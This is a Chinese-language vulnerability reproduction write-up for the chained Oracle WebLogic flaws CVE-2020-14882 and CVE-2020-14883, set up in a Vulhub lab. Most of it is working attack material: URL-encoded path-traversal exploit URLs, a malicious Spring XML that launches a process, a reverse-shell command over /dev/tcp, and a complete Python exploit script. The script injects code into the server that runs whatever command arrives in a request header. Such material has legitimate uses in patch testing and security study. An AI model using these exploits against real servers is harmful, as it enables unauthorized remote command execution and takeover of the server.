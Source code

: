 # Weblogic 管理控制台未授权远程命令执行漏洞 CVE-2020-14882+CVE-2020-14883

## 漏洞描述

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## 环境搭建

Vulhub执行如下命令启动一个Weblogic 12.2.1.3版本的服务器：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:7001/console`即可查看到后台登录页面。

![image-20220302204340503](./images/202203022043612.png)

## Xray

```
VulnType         "poc-yaml-weblogic-cve-2020-14750/default"
links            ["https://www.oracle.com/security-alerts/alert-cve-2020-14750.html"]
weblogic_version "10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0"
```

## 漏洞复现

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![image-20220302204438346](./images/202203022044479.png)

访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/awesome_poc');")
```

进入容器，可以发现`touch /tmp/awesome_poc`已成功执行：

![image-20220302205012875](./images/202203022050933.png)

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch awesome_poc_xml]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

进入容器，可以发现`touch /tmp/awesome_poc_xml`已成功执行：

![image-20220302205409576](./images/202203022054641.png)

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

### 反弹shell

通过漏洞poc反弹shell：

```
python CVE-2020-14882.py -u http://192.168.174.128:7001 -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" 
```

监听9999端口，成功接收反弹shell：

![image-20220302210205257](./images/202203022102393.png)

## 漏洞POC

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# author: zhzyker
# from: https://github.com/zhzyker/vulmap
# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)
```

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

